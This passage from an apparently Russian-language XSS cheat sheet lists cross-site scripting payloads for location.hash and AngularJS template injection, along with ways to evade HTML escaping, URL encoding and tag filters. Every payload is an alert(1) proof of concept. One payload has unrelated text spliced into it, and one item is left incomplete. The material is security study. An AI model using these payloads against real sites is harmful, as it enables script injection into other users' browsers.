 #### XSS через `location.hash`
	`/#Say It With Flowers - Or Maybe Not onload="this.src+='<img src="1" onerror=alert(1)>'">`
- **Условия работы**:
    - Хэш URL передается в JavaScript без проверки.
    - Используется для динамического изменения содержимого страницы.

####  XSS через AngularJS
- AngularJS c {{ }}
	`{{ метод.constructor('') }}`
	`{{ $eval.constructor('alert1')() }}` 
- **Условия работы**:
    - AngularJS используется без отключения интерполяции (`{{ }}`).
    - Входные данные не экранируются.

## Методы обхода защит

#### Экранирование HTML
	`&lt;script&gt;alert(1)&lt;/script&gt;`
- **Как работает**:
    - Символы `<` и `>` заменяются на HTML-сущности.
- **Обход**:  
    Используйте альтернативные теги или атрибуты:
    `<img src="x" onerror=alert(1)>`

#### URL-кодировка
	`%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e`
- **Как работает**:
    - Код кодируется в URL-формате.
- **Обход**:  
    Используйте двойное кодирование или передачу через параметры:

#### Внедрение в атрибуты HTML
	`<div title="xss' onmouseover='alert(1)"></div>`
- **Как работает**:
    - Вредоносный код внедряется в атрибуты HTML.
- **Обход**:  
    Используйте кавычки или другие атрибуты:
    `<img src="x" onerror=alert(1)>`

#### Обход очищения тегов
	`<><img src="0" onerror="alert(1)">`
- **Как работает**:
    - Очищение тегов настроено неправильно (например, удаляет только первый тег).
- **Обход**:  
    Используйте вложенные теги или самозакрывающиеся теги:
    `<svg/onload=alert(1)>`


# 7. Свои наработки
